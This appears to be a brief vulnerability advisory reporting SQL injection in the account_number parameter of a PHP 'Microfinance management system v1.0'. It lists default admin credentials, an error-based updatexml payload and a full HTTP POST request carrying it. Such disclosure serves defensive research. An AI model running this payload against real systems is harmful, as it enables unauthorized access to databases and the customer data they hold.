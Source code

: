 # Microfinance management system v1.0 - SQL injection

### username:admin password:123456 ----> {ip}/login.php

Supplier:https://www.sourcecodester.com/php/14822/microfinance-management-system.html

 /updateaccount.php has SQL injection

Payload:account_number=' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+

SQL injection because 'account_ number' parameter can be controlled

```
POST /cms001/app/openaccountHandler.php HTTP/1.1
Host: 192.168.0.196
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4476.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 163
Origin: http://192.168.0.196
Connection: close
Referer: http://192.168.0.196/cms001/updateaccount.php
Cookie: PHPSESSID=jl7s46ab2lmjcsjbb8ihlu3kq2
Upgrade-Insecure-Requests: 1

account_number=' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+=&customer=Select+one&account_type=Select+one&account_status=Select+one&update_account=
```

![1](/img/1.png)

![3](/img/3.png)

![2](/img/2.png)
